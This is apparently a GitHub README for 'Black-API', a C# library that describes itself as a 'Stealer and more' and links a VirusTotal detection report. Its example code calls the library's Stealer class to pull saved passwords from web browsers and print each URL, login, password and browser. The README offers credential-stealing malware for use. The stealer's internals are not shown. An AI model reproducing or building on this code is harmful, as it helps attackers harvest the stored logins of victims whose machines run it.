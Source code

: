 # Black-API
Stealer and more

[![Codacy Badge](https://app.codacy.com/project/badge/Grade/7576b1dcd41048f2843e5d4bee57d7bc)](https://www.codacy.com/gh/Nekiplay/Black-API/dashboard?utm_source=github.com&amp;utm_medium=referral&amp;utm_content=Nekiplay/Black-API&amp;utm_campaign=Badge_Grade)

VT: https://www.virustotal.com/gui/file/06e364a178d9a65bc9f3e402841cfb5dc7dd5bba01183f9b6155b10969571676/detection

**Example:**
```C#
BlackAPI.Stealer stealer = new BlackAPI.Stealer();
var stealerresult = stealer.GetPasswords();
if (stealerresult.Work)
{
    foreach (var password in stealerresult.Passwords)
    {
        Console.WriteLine("Url: " + password.url);
        Console.WriteLine("Login: " + password.login);
        Console.WriteLine("Password: " + password.password);
        Console.WriteLine("Browser: " + password.browser);
    }
    Console.WriteLine("Total passwords: " + stealerresult.Passwords.Count);
}
else
{
    Console.WriteLine("Passwords not found");
}
```
